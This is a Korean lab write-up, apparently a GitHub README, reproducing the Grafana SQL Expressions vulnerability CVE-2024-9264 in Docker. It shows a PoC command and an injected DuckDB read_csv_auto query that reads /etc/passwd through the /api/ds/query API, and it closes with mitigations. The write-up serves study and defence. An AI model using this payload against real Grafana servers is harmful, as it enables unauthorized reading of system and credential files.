




# CVE-2024-9264

참고문서 
    https://github.com/vulhub/vulhub/tree/master/grafana/CVE-2024-9264

## 1. 취약점 요약

| 항목 | 내용 |
|------|------|
| CVE | CVE-2024-9264 |
| 대상 | Grafana (SQL Expressions) |
| 영향 | Local File Inclusion(LFI), Remote Code Execution(RCE) |
| 심각도 | Critical (CVSS 9.9) |
| 공격 조건 | 인증된 사용자(Admin 권한) |
| 공격 방식 | SQL Expression 기능을 악용하여 DuckDB SQL 실행 |

Grafana는 서버, 애플리케이션, 데이터베이스 등의 다양한 데이터를 한눈에 보기 쉬운 그래프나 대시보드 형태로 시각화해 주는 오픈소스 모니터링 도구이다.

CVE-2024-9264는 Grafana의 SQL Expressions 기능에서 발생하는 취약점이다.

Grafana 내부에서 사용하는 DuckDB SQL을 적절하게 검증하지 않아 공격자가 SQL Expression을 통해 임의의 DuckDB SQL을 실행할 수 있다.

이를 이용하면

- 서버의 로컬 파일 읽기(LFI)
- 시스템 명령 실행(RCE)
- 민감한 정보 유출

등이 가능하다.

본 실습에서는 Docker 환경에서 Grafana 11.0.0을 실행한 후 PoC를 이용하여 `/etc/passwd` 파일을 읽는 방식으로 취약점을 재현하였다.

---

# 2. 환경 구성

## 실습 환경

| 구성 | 내용 |
|------|------|
| OS | Ubuntu |
| Docker | Docker Compose |
| Grafana | 11.0.0 |

### 저장소 다운로드

```bash
git clone https://github.com/yeonchoda/CVE-2024-9264
cd CVE-2024-9264
```

### Docker 실행

```bash
docker-compose up
```

Grafana 실행 확인

```
http://localhost:3000
```




Grafana의 기본 계정 정보는 다음과 같다.

```
ID : admin
PW : admin
```


---

# 3. 취약 조건

취약점이 발생하기 위해서는 다음 조건이 만족되어야 한다.

- Grafana의 취약 버전 사용
- SQL Expressions 기능 사용 가능
- 공격자가 Grafana에 로그인 가능
- DuckDB SQL Expression이 활성화되어 있음

본 실습에서는 기본 관리자(admin/admin) 계정을 사용하였다.

---

# 4. 재현

PoC 실행

로컬 파일을 읽기 위해 다음 명령을 실행하였다.

```bash
python3 PoC.py -u http://localhost:3000 -f "/etc/passwd"
```

PoC는 다음 SQL Expression을 생성한다.

```sql
SELECT * FROM read_csv_auto('/etc/passwd')
```

이를 Grafana의 `/api/ds/query` API로 전송한다.

---

## 결과 확인

Grafana가 SQL을 그대로 실행하면서 `/etc/passwd` 내용을 응답으로 반환하였다.



/etc/passwd 파일 이외에 다른 파일도 열람 가능하다.


이를 통해 Local File Inclusion이 성공적으로 수행됨을 확인하였다.

---

# 5. PoC 코드

PoC는 Python으로 작성되었으며 다음 과정을 수행한다.

1. Grafana API(`/api/ds/query`) 호출
2. SQL Expression 생성
3. JSON 형태로 요청 전송
4. 응답(JSON) 파싱
5. 파일 내용 출력

파일 읽기 시 생성되는 SQL은 다음과 같다.

```python
sql_query = f"SELECT * FROM read_csv_auto('{args.file}')"
```

API 요청은 다음과 같이 수행된다.

```python
response = requests.post(
    api_url,
    auth=(username, password),
    headers=headers,
    data=json.dumps(payload),
    verify=False
)
```

이는 curl 명령어로도 확인할 수 있다.



# 6. 대응 방안

## 1. Grafana 최신 버전 업데이트

가장 효과적인 대응 방법은 취약점이 수정된 최신 버전으로 업데이트하는 것이다.

---

## 2. SQL Expressions 기능 제한

불필요한 SQL Expression 기능은 비활성화하거나 최소 권한 원칙을 적용하여 사용 범위를 제한한다.

---

## 3. 관리자 계정 보호

- 기본 계정(admin/admin) 변경
- 강력한 비밀번호 사용
- 관리자 계정 최소화

---


# 결론

Docker 환경에서 Grafana 11.0.0을 구축한 후 CVE-2024-9264 취약점을 재현하였다.

Python으로 작성된 PoC를 이용하여 SQL Expression 기능을 악용하고 `/etc/passwd` 파일을 읽는 데 성공하였다. 이를 통해 SQL Expression에 대한 입력 검증이 미흡할 경우 민감한 파일이 노출될 수 있으며, 환경에 따라서는 원격 코드 실행으로도 이어질 수 있음을 확인하였다.
이러한 취약점은 최신 버전으로의 업데이트, SQL Expression 기능 제한, 관리자 계정 보호 등의 보안 대책을 통해 예방할 수 있다.
